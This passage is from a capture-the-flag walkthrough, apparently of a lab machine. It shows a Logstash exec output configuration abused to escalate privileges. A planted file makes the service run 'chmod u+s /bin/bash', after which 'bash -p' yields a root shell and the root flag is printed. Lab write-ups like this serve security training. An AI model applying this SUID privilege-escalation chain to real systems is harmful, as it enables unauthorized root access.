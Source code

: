 ```bash
                type => "execute"
                mode => "read"
        }
}
```
---
* **output.conf**
```bash
output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

### This all output we can get:
* To execute a command we can need next sintax: `Ejecutar comando : <Command>`
> **\s** is a regular expression to blank spaces
* Path to save this file is in **/opt/kibana** and put a name with prefix `logstash_`

8. Create a script to execute a command to put perm SUID in **bash**
```bash
bash-4.2$ pwd
/opt/kibana
bash-4.2$ cat logstash_script 
Ejecutar comando : chmod u+s /bin/bash
```

* Look permissions of `/bin/bash`

```
bash-4.2$ ls -la /bin/bash
-rwsr-xr-x. 1 root root 964608 oct 30  2018 /bin/bash
```

9. Spawn a bash how root and show root flag.
```
bash-4.2$ bash -p
bash-4.2# whoami
root
```
---
```
bash-4.2# cat /root/root.txt  
ee964922db84bd1842da7de1568ebbca
```
